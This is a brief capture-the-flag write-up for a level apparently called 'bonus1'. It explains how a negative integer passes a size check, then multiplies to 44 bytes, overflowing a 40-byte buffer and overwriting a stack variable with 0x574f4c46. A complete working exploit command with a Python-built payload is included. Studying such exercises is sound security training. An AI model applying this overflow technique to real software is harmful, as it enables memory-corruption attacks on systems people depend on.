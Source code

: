 We need to overflow the value of the variable `[esp+0x3c]` to set it at `0x574f4c46`. It's stored just after our buffer of 40 bytes. Now we have to figure how to pass an int which is less than `9` and once multiply by 4 is greater or equal to `44`: `-2147483637 * 4 = 44`.
```shell
./bonus1 "-2147483637" $(python -c 'print "A" * 40 + "\x46\x4c\x4f\x57"')
```
